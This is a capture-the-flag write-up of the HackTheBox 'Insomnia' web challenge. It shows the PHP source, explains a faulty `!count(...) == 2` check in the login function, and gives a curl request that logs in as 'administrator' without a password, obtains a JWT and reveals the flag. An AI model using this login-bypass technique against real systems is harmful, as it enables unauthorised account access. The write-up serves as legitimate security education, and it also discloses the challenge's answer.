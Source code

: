 ```yaml
---
title: "[HTB] Insomnia Writeup 💤"
date: 2024-07-16 17:49:39
cover: https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/help-you-at-solving-hackthebox-htb-challenges-machines.png
categories: CTF
tags:
    - HTB
    - Web
    - HackTheBox 
---
```


# 0x00 Challeng Info

It's a web challenge, so it gives us a website and the source code for us to analyze. Let's see the description first.

> Welcome back to Insomnia Factory, where you might have to work under the enchanting glow of the moon, crafting dreams and weaving sleepless tales.

Well, although it's not helpful, it's still a romantic setting for this challenge (you know, programmers & hackers always work at night).

# 0x01 Analyze

Since it gave us the source code, we should check it out first. The most important thing is under the **controller directory** (`Insomnia/web_insomnia/Insomnia/app/Controllers`), because it's where the backend interact with users. 

I check out the `ProfileController.php`, and find something interesting.

```php
if ($username == "administrator") {
    return view("ProfilePage", [
        "username" => $username,
        "content" => $flag,
    ]);
} else {
    $content = "Haven't seen you for a while";
    return view("ProfilePage", [
        "username" => $username,
        "content" => $content,
    ]);
}
```

So if we can login as **administrator**, then we can get the flag. Now the question is how we are able to do that. To know how, we should then find the answer in the login function, which is in `UserController.php`.

After analyzing the code, we can found that there's an logic error in the code that the developer doesn't notice it. In the `login()` function, the developer use `if (!count($json_data) == 2)` to check if the login data we passed has 2 arguments. But if we think it carefully, we can know that it's different to `if (count($json_data) !== 2)`. Here's are the differences.

1. `if (!count($json_data) == 2)`
   - First, it calculate `count($json_data)`, and it's an INT.
   - Then, the "!" negates the result we get. So if `count($json_data)` does not equals to 0, the expression will get a **false**. Anyways, it will get a **BOOL** as it's data type.
   - Finally, it checks whether the **BOOL** is equivalent to an **INT**, so the expression will always be a **false**, in other words, **the program will never go into this if statement**. 
2. `if (count($json_data) !== 2)`
   - It calculate the `count($json_data)` and properly compare the number with 2.
   - So this is the correct way to check if the data count is legal.

The next thing you should know is everytime we sign in, the system will give us a token to verify our identitys. The following is the complete code of `ProfileController.php`

```php
<?php

namespace App\Controllers;

use App\Controllers\BaseController;
use CodeIgniter\HTTP\ResponseInterface;
use Config\Paths;
use Firebase\JWT\JWT;
use Firebase\JWT\Key;

class ProfileController extends BaseController
{
    public function index()
    {
        $token = (string) $_COOKIE["token"] ?? null;
        $flag = file_get_contents(APPPATH . "/../flag.txt");
        if (isset($token)) {
            $key = (string) getenv("JWT_SECRET");
            $jwt_decode = JWT::decode($token, new Key($key, "HS256"));
            $username = $jwt_decode->username;
            if ($username == "administrator") {
                return view("ProfilePage", [
                    "username" => $username,
                    "content" => $flag,
                ]);
            } else {
                $content = "Haven't seen you for a while";
                return view("ProfilePage", [
                    "username" => $username,
                    "content" => $content,
                ]);
            }
        }
    }
}
```

So the final step is to sign in as administrator and copy the token we get. Let's hack the planet!

# 0x02 Exploit

To sign in, I tried to use the browser to send the request first. But it won't work since the key "password" is still assigned a value of null string just like below. That way, we can't sign in due to the wrong password.

![Password is assigned](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240716214725811.png)

To bypass this, I use **curl** to help me to send the request. The payload is the URL and the data, which is the username.

```bash
curl http://94.237.51.8:32663/index.php/login --data-raw '{"username": "administrator"}'
```

And the terminal will shows the response, then we can copy the token just like this.

```bash
{"message":"Login Succesful","token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MjExMjMwODEsImV4cCI6MTcyMTE1OTA4MSwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIn0.fMLAS55mm69_aqQWEhehVlspjCvpfHJzOp4vy91Zjv8"}
```

The final step is going to `/index.php/profile` and paste the token we just got (by using the devtool to modify the token cookie). After refreshing the page, we can get the flag!

![Pwned](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240716215517124.png)

# 0x03 Pwned

```
HTB{I_just_want_to_sleep_a_little_bit!!!!!}
```

